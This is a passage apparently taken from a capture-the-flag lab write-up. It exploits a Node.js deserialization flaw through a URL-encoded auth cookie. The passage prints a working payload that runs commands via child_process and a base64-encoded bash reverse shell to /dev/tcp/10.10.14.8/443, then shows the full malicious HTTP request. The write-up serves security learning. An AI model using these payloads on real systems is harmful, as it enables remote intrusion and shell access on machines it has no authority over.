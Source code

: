 
This URL encodes to:

    
    
    %7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%38%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%7d%29%3b%7d%28%29%22%7d
    

It is important to URL encode (I’ll look at why I need to URL encode this in
Beyond Root).

I’ll start `tcpdump`, and send this in repeater, which leads to ICMP packets:

    
    
    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:37:28.886060 IP 10.10.11.139 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
    13:37:28.886083 IP 10.10.14.8 > 10.10.11.139: ICMP echo reply, id 1, seq 1, length 64
    

#### Shell

I played with a few things, but ended up getting a base64 encoded bash reverse
shell to work. I created it in my own terminal:

    
    
    oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==
    

Then tested that it worked by running and making sure it connected:

    
    
    oxdf@parrot$ echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==|base64 -d|bash
    

Then reset `nc` and put the payload into the GET request:

    
    
    GET / HTTP/1.1
    Host: 10.10.11.139:5000
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: auth=%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%34%4c%7a%51%30%4d%79%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%7d%29%3b%7d%28%29%22%7d
    Upgrade-Insecure-Requests: 1
    Set-GPC: 1
    